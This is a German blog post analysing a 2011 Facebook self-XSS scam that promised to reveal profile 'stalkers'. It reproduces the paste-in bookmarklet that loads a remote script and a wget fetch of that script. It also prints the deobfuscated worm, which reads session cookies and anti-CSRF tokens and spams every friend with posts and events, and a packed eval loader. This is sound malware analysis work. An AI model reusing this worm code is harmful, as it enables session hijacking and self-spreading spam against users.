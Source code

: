 Auf den Spuren von Facebook-&quot;Viren&quot;
#############################################
:date: 2011-04-27 01:50
:tags: bugs, de, facebook, reverse engineering, virus

Naja wirklich landen tut man dort nicht, denn man wird auf jedenfall zu
einem "Blog" weitergebracht. Dieser Blog beinhaltet Informationen wie
man "einfach" seine "Stalker" herrausfinden kann. 

|stalker-blog|

Das ganze ist denkbar einfach: man geht auf facebook, kopiert den Javascript der dort
bereit gestellt wird in seine Adresszeile:

::

    javascript:(a=(b=document).createElement('script')).src='//iamedwards.com/german.php?'+Math.random(),b.body.appendChild(a);void(0)

und schon erfaehrt man alles ueber seine Stalker, so moechte man meinen.
Aber bei dieser Aktion passiert noch viel mehr. Was macht dieses kleine
Script ueberhaupt. Schluesseln wir es mal auf: Zuerst einmal sollte klar
sein, dass man ueber "javascript:" eigene Scripte auf die DOM-Elemente
der aktuell offenen Seite loslassen kann. document wird in der Variable
b abgespeichert. Daraufhin wird noch eine Hilfsvariable a angelegt, in
der ein neues "script"-Element steht. Dieses script Element bindet ein
externes Script von "http://iamedwards.com/german.php" ein. Interressant
ist hier auch die Zufallszahl von Math.random() als GET Uebergabe. Ich
weiss noch nicht in wie weit diese an Berechnungen innerhalb des
eingebundenen Scriptes mit beteiligt ist. Interressant ist zudem, wenn
nicht alle Parameter stimmen, man auf Google weitergeleitet wird.Wichtig
ist hierbei auch der Referer, der auf facebook.com angepasst werden
muss:

::

    21:55:27 seda:~/
    % wget --referer="http://facebook.com" "http://iamedwards.com/german.php?0.2344543643"

Was rausgeworfen wird ist ein wenig lang und moechte ich hier nur per
Link drauf verweisen: `http://pastebin.com/2LfCH2pr`_ Es ist nicht
schwer zu verstehen, nur schwer zu lesen, weil so komische
Variablennamen gewaehlt wurden wie: \_0x8a40, \_0x93d3xe... Wenigstens
haben sie sich an einen Stil gehalten :) Ok...es ist immer nicht ganz
leicht solchen miserablen Code aufzuraeumen, aber am besten faengt man
damit an die Variablen umzubenennen. Nachdem ich keine Ahnung hab, was
diese repraesentieren, nenn ich sie wie mir die Nase grad steht. Das
sollte den Code kuerzer machen und vorallem mehr lesbar. Wie euch ja
aufgefallen ist, ist das ganze auch in einer Zeile geschrieben.
Nunja...ich wuerde mal sagen: **Security by obscurity**. Das ist bei
JavaScript leider eigentlich inzwischen gang und gaebe. Zudem hab ich
die ganzen Hex Zeichen in dem angelegten Array \_0x8a40 in lesbare
Zeichen uebersetzt. Zum Glueck sehen Javascript Arrays wie Python Tuple
aus und man kann sie einfach weiterverwenden.

::

    data
    firstChild
    navAccountName
    getElementById
    ?
    /ajax/choose/?__a=1
    event
    AsyncRequest
    /ajax/typeahead/first_degree.php?__a=1&viewer=
    &token=
    &filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha
    length
    push
    getTime
    setTime
    getMonth
    getDate
    getFullYear
    getHours
    ,
    join

Ich denke dadurch kriegt man mal so einen Eindruck was da alles
drinsteht. Das sind alles Sachen, die spaeter im Code ersetzt wurden,
nur um ihn unlesbar zu machen (was ihnen ja auch gelungen ist) Demnach
hab ich das komplette Array \_0x8a40 aus dem Script genommen und alles
direkt eingetragen. Jetzt sieht das ganze schon lesbarer aus:
(entschuldigt fuer die riesen Tabs, bei mir sind die auf 2 leerzeichen
eingestellt, werden aber nicht durch whitespaces ersetzt) wer es nochmal
schoener Betrachten moechte sei hierhin verwiesen:
`http://pastebin.com/ZUNuYfWT`_

::

    var chatmessage="%firstname% wow facebook kann dir jetzt anzeigen wer dein Profil ansieht! Schaus dir an @ ow.ly/4GpHi";
    var postmessage="Meine Top Profil-Stalker: %tf% - 1136 Besuche %tf% - 983 Besuche %tf% - 542 Besuche %tf% - 300 Besuche Schau dir an wer dein Profil sieht @ http://apps.facebook.com/seeyouuu/?o4sshg2m";
    var redirect="http://germancpa.blogspot.com/";
    var eventdesc="Schau dir deine Profil-Stalker an -  http://www.google.com/url?sa=t&source=web&cd=1&ved=0CBoQFjAA&url=http%3A%2F%2Fwho-spying-u.blogspot.com%2F&ei=SHO2TaAkiNiIAve95Sk&usg=AFQjCNH_JxkE7o8CvUwsLVUwr2eGGP4ecw&sig2=Ye1vqVHrMDHWkRv--npMkw?o4sshg2m ~~ o4sshg2m";
    var eventname="WOW Jetzt kannst du sehen wer sich dein Profil ansieht!   (o4sshg2m)";
    var nfriends=5000;
    var debug=false;
    var wf=0;
    var mf=function (){
        if(wf<=0){
            setTimeout(function (){
                window["top"]["location"]["href"]=redirect;
            } ,500);
        };
    };
    var doget=function (a,b,c){
        var e= new XMLHttpRequest();
        e["open"]("GET",a);
        e["onreadystatechange"]=function (){
            if(e["readyState"]==4){
                if(e["status"]==200&&b){
                    b(e["responseText"]);
                };
                if(c){
                    c();
                };
            };
        };
        e["send"]();
    } ;

    doget("/",function (f){
        var g=document["cookie"]["match"](/c_user=(\d+)/)[1];
        var h=function (i){ return i ? "@["+i["id"]+":"+i["name"]+"]":"";};
        var j=function (i){return i?i["name"]:"";} ;
        var k=function (i){
            out="";
            for(var l in i){
                out+=(out?"&":"")+l+((i[l]!==null)?"="+encodeURIComponent(i[l]):"");
            } ;
            return out;
        } ;
        var b=function (a,i,b,c){
            var e= new XMLHttpRequest();
            e["open"]("POST",a);
            e["setRequestHeader"]("Content-Type","application/x-www-form-urlencoded");
            e["onreadystatechange"]=function (){
                if(e["readyState"]==4){
                    if(e["status"]==200&&b){ b(e["responseText"]); } ;
                    if(c){ c(); } ;
                } ;
            } ;
            e["send"](k(i));
        } ;
        var m=function (){
            var e=document["createElement"]("div");
            e["style"]["display"]="block";
            e["style"]["position"]="absolute";
            e["style"]["width"]=100+"%";
            e["style"]["height"]=100+"%";
            e["style"]["left"]=0+"px";
            e["style"]["top"]=0+"px";
            e["style"]["textAlign"]="center";
            e["style"]["padding"]="4px";
            e["style"]["background"]="#FFFFFF";
            e["style"]["zIndex"]=999999;
            e["innerHTML"]=" Verifiziere deinen Code - Bitte gedulde dich einen kleinen Moment. We are processing the offer for you... click here";
            document["body"]["appendChild"](e);
        } ;
        var n=f["match"](/name=\\"xhpc_composerid\\" value=\\"([\d\w]+)\\"/i);
        if(n){ comp=n[1]; } else { comp=""; } ;
        var p=f["match"](/name="post_form_id" value="([\d\w]+)"/i)[1];
        var q=f["match"](/name="fb_dtsg" value="([\d\w]+)"/i)[1];
        var r=document["getElementById"]("navAccountName")["firstChild"]["data"];
        redirect=redirect+"?"+k({userid:g,name:r,doclose:1});
        m();
        if(eventdesc){
            wf++;
            b("/ajax/choose/?__a=1",{
                type:"event",
                eid:null,
                invite_message:"",
                __d:1,
                post_form_id:p,
                fb_dtsg:q,
                lsd:null,
                post_form_id_source:"AsyncRequest"
            },function (s){
                var t=s["match"](/\\"token\\":\\"([^\\]+)\\"/)[1];
                var a="/ajax/typeahead/first_degree.php?__a=1&viewer="+g+"&token="+t+"&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha";
                doget(a,function (u){
                    var v=u["match"](/\{"uid":\d+,/g);
                    var w=[];
                    for(var x=0;x/gi);
                    var ai=[];
                    if(v){
                        for(var x=0;x[^>]+\\u003c\\\/a>$/i)[0]["replace"](/\\u003c\\\/a>$/gim,"")["replace"](/>/g,"");
                            ai["push"]({id:y,name:al});
                        } ;
                    } ;
                    var c=[];
                    var aj=[];
                    while(ai["length"]){
                        var ak=Math["floor"](Math["random"]()*ai["length"]);
                        c["push"](ai[ak]);
                        aj["push"](ai[ak]);
                        var ag=ai["shift"]();
                        if(ak){ai[ak-1]=ag;
                    } ;
                } ;
                if(debug){
                    alert("fetched friends:"+c["length"]);
                } ;
                var am={
                    post_form_id:p,
                    fb_dtsg:q,
                    xhpc_composerid:comp,
                    xhpc_targetid:g,
                    xhpc_context:"home",
                    xhpc_fbx:"",
                    lsd:null,
                    post_form_id_source:"AsyncRequest"
                };
                mt=postmessage;
                m=postmessage;
                while(mt["search"]("%tf%")>=0){
                    var an=c["pop"]();
                    mt=mt["replace"]("%tf%",j(an));
                    m=m["replace"]("%tf%",h(an));
                } ;
                am["xhpc_message_text"]=mt;
                am["xhpc_message"]=m;
                if(debug){
                    alert("message text:"+mt);
                } ;
                b("/ajax/updatestatus.php?__a=1",am);
                var ao=function (l){
                    if(l==0){
                        wf=0;
                        mf();
                        return ;
                    } ;
                    var c=aj["shift"]();
                    var aq={
                        post_form_id:p,
                        fb_dtsg:q,
                        xhpc_composerid:comp,
                        xhpc_targetid:c["id"],
                        xhpc_context:"profile",
                        xhpc_fbx:1,
                        lsd:null,
                        post_form_id_source:"AsyncRequest"
                    };
                    var d=postmessage;
                    var ap=postmessage;
                    if(c["length"]==0){
                        wf=0;
                        mf();
                        return ;
                    } ;
                    while(d["search"]("%tf%")>=0){
                        var ar=c["pop"]();
                        d=d["replace"]("%tf%",j(ar));
                        ap=ap["replace"]("%tf%",h(ar));
                    } ;
                    aq["xhpc_message_text"]=d;
                    aq["xhpc_message"]=ap;
                    b("/ajax/updatestatus.php?__a=1",aq);
                    setTimeout(function (){ao(l-1);} ,2000);} ;
                    wf++;setTimeout(function (){ao(nfriends);} ,2000);
                } );
            } ;
            mf();
        } );

Doch was tut das ganze. (nachdem ich keine Codebeispiele rausnehme, weil
es den Text nur zusehr aufblaehen wuerde, ist es sinnvoll den Code
daneben zu halten oder in einem extra Fenster auf zu machen) Das ist
nicht so schwer zu erklaeren, aber etwas langwierig: Zeile 1-8 sind nur
festlegung verschiedenster Variablen, wie Chatmessages, Postmessages und
Redirect Seiten. Auch wird hier der Text fuer das Event eingestellt, das
generiert werden soll. Dann wird in Zeile 9 eine Funktion namens "mf"
definiert die genau diesen Redirect zur definierten Seite ausfuehrt.
Wenn eine Variable <=0 ist. Diese Variable wird im kompletten Script
immer wieder inkrementiert und dekrementiert. Auch wird die Funktion
ziemlich haeufig aufgerufen, ohne dass sie irgend etwas tut. Auch die
naechste Funktion, in Zeile 16 "doget", ist nur ein Hilfsfunktion. Hier
sieht man auch, dass die "Angreifer" sich nicht gross um Browser
Compatibilitaet gekuemmert haben. Es sollte aber in einem Grossteil
leider funktionieren. Der Funktion kann wiederum 2. andere Funktionen
uebergeben werden. Einerseits eine, die bei Success mit dem ResponseText
aufgerufen wird, und eine Funktion, wenn kein 200er Request
stattgefunden hat. In Zeile 32. springen wir auch schon ins Geschehen.
Es wird die Hauptseite von Facebook geholt, also http://facebook.com/.
Sogleich wird auf ein cookie geprueft (Z. 33) und einen bestimmten Wert
"c\_user" (ich denke es handelt sich hierbei um den Usernamen, oder ID)
herraus geholt. Danach legt er sich 5 Hilfsfunktionen an die im
einzelnen folgendes machen:

#. **h**: sie prueft ob i nicht leer ist, wenn nicht leer, gibt sie
   einen formatierten String in der Form: "@[id:name]". Fals aber leer,
   wird auch ein leerer String zurueckgegeben
#. **j**: siehe h: rueckgabe des Strings in Form: "name"
#. **k**: Annahme von i als array. (ich wusste garnicht, dass JS eine
   art foreach kann :) ). Die Funktion formatiert einen QueryString aus
   einem Array in der Form array(key=>element).
#. **b**: wieder eine Art doget, aber diesmal werden die Daten per Post
   uebermittelt. Diese Funktion hatte doget nicht. Eine gute Frage,
   warum sie nicht eine maechtige Funktion geschrieben habe :-/ (sie ist
   nahezu identisch zu doget)
#. **m**: sie generiert ein div-element und fuellt dieses mit diversen
   Style Eigenschaften. Dannwird noch ein Text ausgegeben, dass man sich
   Gedulden soll, mit einem lustigen Bild, dass von einem harvard server
   kommt. Zuletzt wird dieses div an den Body tag in der Facebook Seite
   gesetzt. Mit dem zIndex von 999.999 landet es garantiert ganz oben
   und nichts drunter ist mehr sichtbar.

In den Zeilen 70-73 sucht er sich aus dem DOM-Element einige Elemente
raus. Einerseits eine Art composerid (ich habe sie in meinem Quelltext
leider nicht gefunden und konnte sie nicht zuordnen). Diese muss aber
nicht zwingend existieren. Die anderen sind aber vorhanden:
post\_form\_id und fb\_dtsg. Bei der form\_id tippe ich auf eine Art id,
die festlegt, welches Form abgeschickt wird. Der Redirect wird neu
gesetzt um auch sicherzustellen, dass wenn es zu einem kommt, klar ist
von welchem Account mit welcher ID und welchem Namen gesendet wurde.
Danach wird die Funktion **m** aufgerufen. Fals ein Eventtext gesetzt
wurde (was in Zeile 77 geprueft wird) macht man sich dran einen POST
Request abzuschicken, um ein Event einzutragen. Leider kenn ich mich mit
der facebook API nicht so gut aus, dass ich da naeher erklaeren koennte
was dort passiert....aber es wird zumindest ein Event rausgeschrieben
mit einem Datum, dass 1000 Tage in der Zukunft liegt (Zeile 100).
Daraufhin wird geprueft ob eine Chatmessage gesetzt ist (Zeile 132).
Fals dies der Fall ist, wird sich die Buddy List geholt und an jeden
Benutzer der aktuell Verfuegbar ist eine Nachricht geschickt (die vorher
angegeben wird). Diese Nachricht ist ueber die Variable %firstname% an
den jeweiligen Benutzer angepasst. Identisch wird ab Zeile 162 mit
Postnachrichten verfahren. Bloss wird hierbei nicht drauf geachtet ob
derjenige Online ist oder nicht. Es werden einfach alle rausgesucht
(Zeile 164 - filter=all). Und die jeweilige Postnachricht wieder ueber
bekannte Ajax Technik verschickt. Interressant finde ich Zeile 184 und
206...anscheinend gab es in der Programmierung Probleme und es wurde
gedebugged. Die debug Ausgaben sind noch im "production" code vorhanden.
Staendig wird die Redirect Funktion aufgerufen. Aber es wird nur einen
Redirect geben, wenn eine Variable: naemlich wf unter null faellt oder
=0 ist. Das kann nur in einigen Faellen auftreten. Aber wirklich genau
drauf eingehen moechte ich auch nicht. Aber trotzdem ist die Seite zu
der Redirected wird noch interressant. Diese funktioniert auch nur, wenn
sie mit einem facebook.com Referer aufgerufen wird. Dort angekommen,
wird man von einem "Human Verification Check" begruesst, wie es meistens
der Fall ist. 

|image1|

Aber mich interressiert nicht wirklich wie das
ganze ausschaut, sondern vielmehr, was unter der Muetze steckt. Und da
haben wir auch gleich den Uebeltaeter gefunden: Ein grosser Button auf
dem "Click Here" Steht. Dahinter verbirgt sich eine Zip Datei mit. Und
in dieser Zip Datei, ist wiederum ein Bild gezippt: 

|spy|

Ich werde daraus nicht wirklich schlau...aber es muss wohl irgendwas mit dem Programm zu tun haben
\*achselzucken\* Zudem stellen sie immer sicher, dass JAvascript
aktiviert ist und auch kein Adblock einschalten ist:

::

    var isloaded = false;if (!isloaded) { window.location = 'http://impressionvalue.mobi/abp'; }

Es wird eine Variable isloaded auf false gesetzt. Dann wird ein externes
Script geladen welches so aussieht:

::

    eval(function(p,a,c,k,e,d){e=function(c){return(c35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('3 h=["\\6\\2\\1\\b\\7\\1\\5\\4\\6\\j\\d"];3 f=["\\d\\8\\i\\1\\9\\7\\o\\1\\8\\4\\2\\k\\2"];3 g=["\\2\\l\\a"];3 e=["\\i\\1\\9\\7\\m\\5"];3 n=["\\1\\5\\a\\b\\j\\6\\w\\4\\2\\k\\2"];p.D(z("%y B=\\"C/A\\" x=\\"r://"+h[0]+"/"+f[0]+"?"+g[0]+"=q&s;"+e[0]+"=t\\"%c%v/u%c"));',40,40,'|x61|x70|var|x2E|x64|x63|x65|x79|x74|x62|x6C|3E|x6D|g3909d93711e1c2ec49f5294bd1915e8c|m86f77129073c6c0dae7a7545e09157e7|p164a505b4127eb6748babbd88555e15b|cf7ed09726cefcccda7fc63312ccb77de|x67|x6F|x68|x75|x69|a23256111997cb2d310fc1d292215b1b5|x77|document|47931|http|amp|MTg0MDkz|script|3C|x6B|src|3Cscript|unescape|javascript|type|text|write'.split('|'),0,{}))

ich hab jetzt keine grossen Boecke das ganze zu Entschluesseln, aber ich
tippe drauf, dass er nichts anderes macht als die Moeglichkeiten des
Browsers zu testen. und wenn alles passt die Variable isloaded auf True
zu setzen. Fals das nicht der Fall sein sollte, wird man auf eine Seite
mit einer: "Bitte entfernen sie ihren Adblocker"-geleitet. Fals kein
Javascript aktiviert ist auf eine: "Bitte Javascript anschalten". Wer
lust hat, kann sich das ja mal genauer anschauen, was das Codestueck
genau macht... Zumindest sieht so ein Facebook-"Virus" aus. Der wirklich
einiges auf dem Kasten hat. Vom Zugriff auf den Internen Chat, bis hin
zur Erzeugung von Events. Auch der Zugriff auf die Benutzer ist nichts
neues. Mit Automatisch neu generierten Textnachrichten, einem Anschluss
zur bit.ly oder aehnlicher Link verkuerzungs API, koennte man damit
wirklich eine maechtige Waffe schaffen um facebook seiten ohne zutun,
nur mithilfe von Klicken und automatisch generierten Events zu crawlen.
Darueber kann ueber einen Benutzer alles herrausgefunden werden, weil
man auf seiner Session "surft". Die Frage was man damit anfangen soll
,stellt sich mir im ersten Moment. Aber bei weiterem Nachdenken, faellt
mir nur wieder Geld ein. Neuartiger Spam, empfohlene Produkte von
Freunden. Spam der noch um einiges Personalisierter ist. Einerseits
hoffe ich, dass ich in Zukunft mehr solcher Cross Site Scripting Attacks
sehe,um sie weiter zu analysieren und auf ihre Maechtigkeit zu pruefen.
Andererseits wuerde ich auch hoffen, dass es eingestellt wird, und von
facebook einen Riegel davor geschoben wird. so long ps.: alsich mir
spaeter nochmal die allererste Seite angeschaut haben, stand da ein
anderer link zu einer anderen Domain. Die scheinen die Wohl zu wechseln
wie ihre Unterhosen.

.. _`http://pastebin.com/2LfCH2pr`: http://pastebin.com/2LfCH2pr
.. _`http://pastebin.com/ZUNuYfWT`: http://pastebin.com/ZUNuYfWT

.. |stalker-blog| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-26-215444_1024x768_scrot-150x150.png
.. |image1| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-27-034601_1024x768_scrot-150x150.png
.. |spy| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/spy-150x150.png
.. |image3| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-26-215444_1024x768_scrot-150x150.png
.. |image4| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/2011-04-27-034601_1024x768_scrot-150x150.png
.. |image5| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/04/spy-150x150.png
